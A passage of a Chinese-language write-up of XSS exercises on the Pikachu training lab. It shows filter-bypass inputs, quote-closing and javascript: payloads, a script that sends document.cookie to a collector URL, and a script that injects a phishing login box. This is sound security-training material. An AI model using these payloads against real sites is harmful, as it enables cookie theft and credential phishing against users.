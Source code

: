 输入`<script>":#'@`

![image-20230729144851237](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230729144851237.png)

应该是script被过滤了，大小写进行绕过

### xss之htmlspecialchars()函数

htmlspecialchars() 函数把预定义的字符转换为 HTML 实体。

它可以将字符串中的特殊字符（如`<>`等）转换为了HTML实体，以防止跨站点脚本攻击（XSS）

输入`6666;"'<>`,查看源码，发现只有单引号`'`没有被编码

![image-20230729184054693](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230729184054693.png)

我们可以构造一个闭合，`' onclick='alert(666)'`,也可以输入`javascript:alert(666)`

### xss之href输出和js输出

输入`javascript:alert(666)`

js输出的源码

![image-20230729184822985](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230729184822985.png)

构造闭合`'</script><script>alert(666)</script>`

### xss的危害

#### 获取cookie

我们利用pikachu的xss后台获取cookie

构造payload

```
<script>document.location = 'http://127.0.0.1/pikachu/pkxss/xcookie/cookie.php?cookie=' +document.cookie;</script>
```

将他输入反射型xss中，打开后台

![image-20230729190509558](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230729190509558.png)

#### 钓鱼获取账户密码

嵌入代码

```
<script src="http://127.0.0.1/pikachu/pkxss/xfish/fish.php"></script>
```

会弹出一个登录框

![image-20230729191017804](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230729191017804.png)

我们输入账号密码，数据会存到后台可以进行查看
